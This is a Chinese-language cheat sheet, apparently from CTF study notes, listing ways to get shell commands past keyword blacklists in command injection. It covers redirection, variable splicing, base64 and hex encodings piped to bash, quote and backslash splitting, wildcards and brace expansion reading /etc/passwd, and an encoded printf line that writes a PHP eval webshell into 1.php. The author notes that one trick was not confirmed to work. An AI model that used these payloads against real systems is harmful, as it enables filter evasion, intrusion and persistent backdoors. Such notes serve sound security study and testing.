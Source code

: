- 重定向符<>

```
cat<>flag
cat<flag
```

### 黑名单绕过

- 拼接  

```
a=c;b=at;c=flag;$a$b $c

```

- 利用已存在的资源  

从已有的文件或者环境变量中获得相应的字符。  

- 编码  

```
`echo "Y2F0IGZsYWc="|base64 -d`
echo "Y2F0IGZsYWc="|base64 -d|bash

$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67")

#可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
$ {printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php

```

- 单引号、双引号  

```
c""at fl''ag
c'a't f'l'ag

```

- 反斜线 \  

```
c\at fl\ag

```

- 通配符  

```
/?in/?s => ls

* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
[! ] 同 ^
cat fl[0-z]g

echo d{a,e,i,u,o}g => dag deg dig dug dog
echo {fl,fla}{ag,g} => flag flg flaag flag
echo fl{0..z}g => fl1g,fl2g,...,flyg,flzg

花括号拓展{OS_COMMAND,ARGUMENT}
在Linux bash中还可以使用{cat,/etc/passwd}来绕过
这里没实验成功

```
